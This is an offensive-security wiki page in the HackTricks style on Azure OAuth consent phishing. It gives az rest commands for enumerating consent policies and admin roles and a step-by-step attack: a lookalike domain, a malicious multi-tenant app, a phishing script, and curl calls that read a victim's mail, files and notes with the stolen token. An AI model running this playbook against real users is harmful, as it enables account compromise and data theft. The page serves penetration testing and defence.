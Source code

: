 # Az - OAuth Apps Phishing

{{#include ../../../banners/hacktricks-training.md}}

## OAuth App Phishing

**Azure Applications** are configured with the permissions they will be able to use when a user consents the application (like enumerating the directory, access files, or perform other actions). Note, that the application will be having on behalf of the user, so even if the app could be asking for administration permissions, if the **user consenting it doesn't have that permission**, the app **won't be able to perform administrative actions**.

### App consent permissions

By default any **user can give consent to apps**, although this can be configured so users can only consent to **apps from verified publishers for selected permissions** or to even **remove the permission** for users to consent to applications.

<figure><img src="../../../images/image.png" alt=""><figcaption></figcaption></figure>

If users cannot consent, **admins** like `GA`, `Application Administrator` or `Cloud Application` `Administrator` can **consent the applications** that users will be able to use.

Moreover, if users can consent only to apps using **low risk** permissions, these permissions are by default **openid**, **profile**, **email**, **User.Read** and **offline_access**, although it's possible to **add more** to this list.

nd if they can consent to all apps, they can consent to all apps.

### 2 Types of attacks

- **Unauthenticated**: From an external account create an application with the **low risk permissions** `User.Read` and `User.ReadBasic.All` for example, phish a user, and you will be able to access directory information.
  - This requires the phished user to be **able to accept OAuth apps from external tenant**
  - If the phised user is an some admin that can **consent any app with any permissions**, the application could also **request privileged permissions**
- **Authenticated**: Having compromised a principal with enough privileges, **create an application inside the account** and **phish** some **privileged** user which can accept privileged OAuth permissions.
  - In this case you can already access the info of the directory, so the permission `User.ReadBasic.All` isn't no longer interesting.
  - You are probable interested in **permissions that require and admin to grant them**, because raw user cannot give OAuth apps any permission, thats why you need to **phish only those users** (more on which roles/permissions grant this privilege later)

### Users are allowed to consent

Note that you need to execute this command from a user inside the tenant, you cannot find this configuration of a tenant from an external one. The following cli can help you understand the users permissions:

```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/authorizationPolicy"
```

- Users can consent to all apps: If inside **`permissionGrantPoliciesAssigned`** you can find: `ManagePermissionGrantsForSelf.microsoft-user-default-legacy` then users can to accept every application.
- Users can consent to apps from verified publishers or your organization, but only for permissions you select: If inside **`permissionGrantPoliciesAssigned`** you can find: `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team` then users can to accept every application.
- **Disable user consent**: If inside **`permissionGrantPoliciesAssigned`** you can only find: `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-chat` and `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team` then users cannot consent any.

It's possible to find the meaning of each of the commented policies in:

```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/permissionGrantPolicies"
```

### **Application Admins**

Check users that are considered application admins (can accept new applications):

```bash
# Get list of roles
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles"

# Get Global Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1b2256f9-46c1-4fc2-a125-5b2f51bb43b7/members"

# Get Application Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1e92c3b7-2363-4826-93a6-7f7a5b53e7f9/members"

# Get Cloud Applications Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/0d601d27-7b9c-476f-8134-8e7cd6744f02/members"
```

## **Attack Flow Overview**

The attack involves several steps targeting a generic company. Here's how it might unfold:

1. **Domain Registration and Application Hosting**: The attacker registers a domain resembling a trustworthy site, for example, "safedomainlogin.com". Under this domain, a subdomain is created (e.g., "companyname.safedomainlogin.com") to host an application designed to capture authorization codes and request access tokens.
2. **Application Registration in Azure AD**: The attacker then registers a Multi-Tenant Application in their Azure AD Tenant, naming it after the target company to appear legitimate. They configure the application's Redirect URL to point to the subdomain hosting the malicious application.
3. **Setting Up Permissions**: The attacker sets up the application with various API permissions (e.g., `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read`). These permissions, once granted by the user, allow the attacker to extract sensitive information on behalf of the user.
4. **Distributing Malicious Links**: The attacker crafts a link containing the client id of the malicious application and shares it with targeted users, tricking them into granting consent.

## Example Attack

1. Register a **new application**. It can be only for the current directory if you are using an user from the attacked directory or for any directory if this is an external attack (like in the following image).
   1. Also set the **redirect URI** to the expected URL where you want to receive the code to the get tokens (`http://localhost:8000/callback` by default).

<figure><img src="../../../images/image (1).png" alt=""><figcaption></figcaption></figure>

2. Then create an application secret:

<figure><img src="../../../images/image (2).png" alt=""><figcaption></figcaption></figure>

3. Select API permissions (e.g. `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read)`

<figure><img src="../../../images/image (3).png" alt=""><figcaption></figcaption></figure>

4. **Execute the web page (**[**azure_oauth_phishing_example**](https://github.com/carlospolop/azure_oauth_phishing_example)**)** that asks for the permissions:

```bash
# From https://github.com/carlospolop/azure_oauth_phishing_example
python3 azure_oauth_phishing_example.py --client-secret <client-secret> --client-id <client-id> --scopes "email,Files.ReadWrite.All,Mail.Read,Notes.Read.All,offline_access,openid,profile,User.Read"
```

5. **Send the URL to the victim**
   1. In this case `http://localhost:8000`
6. **Victims** needs to **accept the prompt:**

<figure><img src="../../../images/image (4).png" alt=""><figcaption></figcaption></figure>

7. Use the **access token to access the requested permissions**:

```bash
export ACCESS_TOKEN=<ACCESS_TOKEN>

# List drive files
curl -X GET \
  https://graph.microsoft.com/v1.0/me/drive/root/children \
  -H "Authorization: Bearer $ACCESS_TOKEN" \
  -H "Accept: application/json"

# List eails
curl -X GET \
  https://graph.microsoft.com/v1.0/me/messages \
  -H "Authorization: Bearer $ACCESS_TOKEN" \
  -H "Accept: application/json"

# List notes
curl -X GET \
  https://graph.microsoft.com/v1.0/me/onenote/notebooks \
  -H "Authorization: Bearer $ACCESS_TOKEN" \
  -H "Accept: application/json"
```

## Other Tools

- [**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer)**:** Check [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer) to learn how to configure it.
- [**O365-Attack-Toolkit**](https://github.com/mdsecactivebreach/o365-attack-toolkit)

## Post-Exploitation

### Phishing Post-Exploitation

Depending on the requested permissions you might be able to **access different data of the tenant** (list users, groups... or even modify settings) and **information of the user** (files, notes, emails...). Then, you can use this permissions to perform those actions.

### Application Post Exploitation

Check the Applications and Service Principal sections of the page:

{{#ref}}
../az-privilege-escalation/az-entraid-privesc/
{{#endref}}

## References

- [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
- [https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/](https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/)

{{#include ../../../banners/hacktricks-training.md}}




